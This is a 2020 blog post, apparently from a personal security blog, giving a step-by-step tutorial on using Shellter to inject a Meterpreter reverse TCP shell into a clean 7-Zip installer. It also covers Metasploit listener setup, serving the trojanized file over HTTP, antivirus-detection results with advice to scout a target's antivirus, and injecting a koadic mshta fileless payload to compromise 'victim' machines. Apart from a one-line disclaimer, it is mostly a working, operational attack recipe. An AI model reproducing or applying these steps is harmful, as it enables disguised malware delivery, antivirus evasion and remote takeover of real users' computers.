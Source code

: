 ```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

![//pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic1.PNG)

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic2.PNG)


## Enable stealth mode

Let's wait for a second..

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic3.PNG)

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic4.PNG)

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic5.PNG)

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified

![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic6.PNG)

## Transfering file

Transfer your malicious PE file to our Windows client. In my case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

Go to our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...

 ![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic7.PNG)
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.

![//pic8](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic8.PNG)

As you can see above, the binary act normally and our payload is executed. Hooray.

![//pic9](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic9.PNG)

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.

![//pic10](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic10.PNG)

As you can see, there is a lot of AV that doesnt detect this malware too.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic11.PNG)

So, make sure to gather information about our target client's AV first before attempt to attack.

## Extra: Inject fileless attack using WinExec

We can also inject fileless attack command line using WinExec payload.
But during the prompt of Payloads, we must choose (type) number '7' for WinExec stager.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic12.PNG)

While in your Kali machine, open koadic and run mshta payload. 

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic13.PNG)

Copy the fileless attack command and paste into Shellter with ``cmd /c`` infront of the command to tell windows start cmd with the command we specifed. In our case, we want to run mshta payload. 

If you guys want to execute calculator app. You may want to use ``cmd /c calc.exe`` to execute calc.exe.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic14.PNG)

After press 'enter', our payload now should be verified. Now, deliver the malicious app into victim machine.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic15.PNG)

Once user execute our malicious putty.exe, their machine will get compromise.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic16.gif)

We're in their machine now. Let's run some cmd command using `exec_cmd` module in koadic.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic17.PNG)

---

 **Thanks for reading**

